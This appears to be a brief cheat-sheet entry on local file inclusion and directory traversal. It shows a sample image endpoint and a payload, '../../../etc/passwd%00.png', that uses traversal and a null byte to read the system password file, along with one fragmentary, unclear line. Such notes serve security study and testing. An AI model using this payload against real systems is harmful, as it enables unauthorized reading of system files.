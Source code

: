 # LFI
### Directory traversal | File path traversal
replace lfi payloads:

%00index.html
to
EJP:
```bash
/image?filename=25.jpg
```

```bash
/image?filename=../../../etc/passwd%00.png
```
